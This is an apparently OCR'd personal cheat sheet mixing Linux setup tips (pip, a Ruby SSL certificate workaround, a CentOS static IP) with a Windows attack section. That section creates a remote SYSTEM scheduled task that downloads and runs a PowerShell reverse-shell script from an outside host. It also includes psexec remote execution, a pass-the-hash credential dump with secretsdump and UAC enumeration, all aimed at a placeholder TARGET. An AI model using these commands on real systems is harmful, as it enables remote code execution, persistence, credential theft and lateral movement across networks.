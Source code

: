 ### python3.exe -m pip install requests

## gem install ssl认证失败

### ruby -ropenssl -e 'p OpenSSL::X509::DEFAULT_CERT_FILE' that outputs "/usr/local/etc/openssl/cert.pem"
mv /usr/local/etc/openssl/cert.pem /usr/local/etc/openssl/cert.pem.old

## centos配置静态ip及DNS

### 1. ip addr #查看网卡
2. vi /etc/sysconfig/network-scripts/ifcfg-ens33    # ifcfg-ens33是上面看到的网卡名称
3. 修改
BOOTPROTO=static
ONBOOT=yes
4. 添加静态ip、默认网关、DNS
IPADDR=192.168.1.111
NETMASK=255.255.255.0
GATEWAY=192.168.1.1
DNS1=114.114.114.114
5. 重启网卡
systemctl restart network

## 常用操作

### 计划任务

- schtasks /create /S TARGET /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.1:8080/Invoke-PowerShellTcp.ps1''')'"
schtasks /Run /S TARGET /TN "STCheck" (运行已创建的计划任务)
参数说明:
/S TATGET to specify the remote servers
/SC Weekly to set the interval of when the task should be executed
/RU the user the remote task is going to run as
/TN the name of the task
/TR the command to execute

### 命令执行

- psexec.exe -accepteula \\TARGET cmd.exe

### PTH

- secretsdump.py -hashes LM:NTLM ./Administrator@TARGET

### UAC settings

- Seatbelt.exe UACSystemPolicies
